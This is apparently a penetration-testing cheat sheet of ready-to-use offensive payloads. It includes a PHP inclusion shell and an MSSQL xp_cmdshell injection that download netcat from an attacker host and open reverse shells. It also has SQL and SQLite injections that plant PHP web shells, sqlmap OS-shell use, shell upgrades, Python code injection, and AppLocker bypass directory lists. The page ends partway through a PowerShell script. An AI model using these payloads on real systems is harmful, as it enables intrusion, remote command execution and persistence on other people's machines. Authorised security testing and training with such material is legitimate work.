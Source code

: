 curl '' -H 'Cookie: PHPSESSID=df74dce800c96bcac1f59d3b3d42087d' --output -
Remote File Inclusion Shell: Windows + PHP
<?php system("powershell -Command \"& {(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.245/netcat/nc.exe','nc.exe'); cmd /c nc.exe 10.11.0.245 4444 -e cmd.exe\" }"); ?>
SQL Injection to Shell or Backdoor
# Assumed 3 columns
http://target/index.php?vulnParam=0' UNION ALL SELECT 1,"<?php system($_REQUEST['cmd']);?>",2,3 INTO OUTFILE "c:/evil.php"-- uMj
# sqlmap; post-request - captured request via Burp Proxy via Save Item to File.
sqlmap -r post-request -p item --level=5 --risk=3 --dbms=mysql --os-shell --threads 10
# netcat reverse shell via mssql injection when xp_cmdshell is available
1000';+exec+master.dbo.xp_cmdshell+'(echo+open+10.11.0.245%26echo+anonymous%26echo+whatever%26echo+binary%26echo+get+nc.exe%26echo+bye)+>+c:\ftp.txt+%26+ftp+-s:c:\ftp.txt+%26+nc.exe+10.11.0.245+443+-e+cmd';--
SQLite Injection to Shell or Backdoor
ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');
MS-SQL Console
mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password
Upgradig Non-Interactive Shell
python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh
Python Input Code Injection
__import__('os').system('id')
Local Enumeration & Privilege Escalation
https://github.com/sagishahar/lpeworkshop
Check AppLocker Policies
Get-AppLockerPolicy -Local).RuleCollections
Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\
Applocker: Writable Windows Directories
# list from https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
Find Writable Files/Folders in Windows
$a = Get-ChildItem "c:\windows\" -recurse -ErrorAction SilentlyContinue
$a | % {
    $fileName = $_.fullname